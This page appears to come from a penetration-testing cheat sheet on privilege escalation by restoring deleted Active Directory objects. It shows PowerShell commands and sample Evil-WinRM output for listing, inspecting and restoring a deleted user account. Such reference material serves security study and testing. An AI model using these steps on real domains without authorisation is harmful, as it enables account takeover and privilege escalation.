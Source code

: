 ```yaml
---
title: "AD Recycle Bin"
date: 2024-7-13
tags: ["Domain Controller", "AD Recycle Bin", "Active Directory", "Windows", "Deleted Objects", "Restore"]
---
```


### Privesc #1: Restore Deleted AD Object

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import AD Module

```console
Import-Module activedirectory
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> import-module activedirectory
```

#### 2. Query All Deleted Objects within Domain

```console
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

Deleted           : True
DistinguishedName : CN=Another User\0ADEL:ebe15df5-e265-45ec-b7fc-359877217138,CN=Deleted Objects,DC=example,DC=com
Name              : Another User
                    DEL:ebe15df5-e265-45ec-b7fc-359877217138
ObjectClass       : user
ObjectGUID        : ebe15df5-e265-45ec-b7fc-359877217138
```

#### 3. Get All Details for the Deleted Object

```console
Get-ADObject -filter { SAMAccountName -eq '<DELETED_USER>' } -includeDeletedObjects -property *
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Get-ADObject -filter { SAMAccountName -eq 'another.user' }
-includeDeletedObjects -property *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : example.com/Deleted Objects/Another User
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
CN                              : Another User
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
---[SNIP]---
```

#### 4. Restore the Deleted Object

```console
# Rename the target account to avoid user exists error
Restore-ADObject -Identity <OBJECT_GUID> -NewName '<DELETED_USER>.2' -TargetPath 'CN=Users,DC=<EXAMPLE>,DC=<COM>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Restore-ADObject -Identity ebe15df5-e265-45ec-b7fc-359877217138 -NewName 'Another User2' -TargetPath 'CN=Users,DC=EXAMPLE,DC=COM'
```

```console
# Or
Restore-ADObject -Identity "<DISTINGUISHED_NAME>"
```

```console
PS C:\programdata> Restore-ADObject -Identity "CN=Apple Seed\0ADEL:1c6---[SNIP]---9db,CN=Deleted Objects,DC=example,DC=com"
Restore-ADObject -Identity "CN=Apple Seed\0ADEL:1c6---[SNIP]---9db,CN=Deleted Objects,DC=example,DC=com"
```

#### 5. Check

```console
net user <DELETED_USER>
```

{{< /tabcontent >}}
